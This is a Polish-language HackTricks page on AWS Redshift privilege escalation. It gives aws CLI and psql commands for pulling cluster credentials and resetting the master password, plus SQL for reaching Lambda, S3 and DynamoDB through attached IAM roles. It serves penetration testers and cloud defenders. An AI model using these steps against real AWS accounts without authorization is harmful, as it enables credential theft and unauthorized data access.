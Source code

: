 # AWS - Redshift Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Redshift

Aby uzyskać więcej informacji o RDS, sprawdź:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Dzięki tym uprawnieniom możesz uzyskać **informacje o wszystkich klastrach** (w tym nazwę i nazwę użytkownika klastra) oraz **uzyskać poświadczenia** do jego dostępu:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Dzięki tym uprawnieniom możesz uzyskać **informacje o wszystkich klastrach** oraz **uzyskać poświadczenia** do ich dostępu.\
Zauważ, że użytkownik postgres będzie miał **uprawnienia, które ma tożsamość IAM** użyta do uzyskania poświadczeń.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Możliwe jest **zmodyfikowanie hasła głównego** użytkownika internal postgres (redshit) z aws cli (myślę, że to są uprawnienia, których potrzebujesz, ale jeszcze ich nie testowałem):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

## Uzyskiwanie dostępu do zewnętrznych usług

{% hint style="warning" %}
Aby uzyskać dostęp do wszystkich poniższych zasobów, musisz **określić rolę do użycia**. Klaster Redshift **może mieć przypisaną listę ról AWS**, które możesz wykorzystać **jeśli znasz ARN** lub możesz po prostu ustawić "**default**", aby użyć domyślnej przypisanej.

Ponadto, jak [**wyjaśniono tutaj**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift pozwala również na łączenie ról (o ile pierwsza może przyjąć drugą), aby uzyskać dalszy dostęp, po prostu **oddzielając** je przecinkiem: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdy

Jak wyjaśniono w [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html), możliwe jest **wywołanie funkcji lambda z redshift** za pomocą czegoś takiego:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Jak wyjaśniono w [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), możliwe jest **czytanie i pisanie do kubełków S3**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Jak wyjaśniono w [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), możliwe jest **pobranie danych z dynamodb**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Tabela Amazon DynamoDB, która dostarcza dane, musi być utworzona w tym samym regionie AWS co twój klaster, chyba że użyjesz opcji [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region), aby określić region AWS, w którym znajduje się tabela Amazon DynamoDB.
{% endhint %}

### EMR

Sprawdź [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}
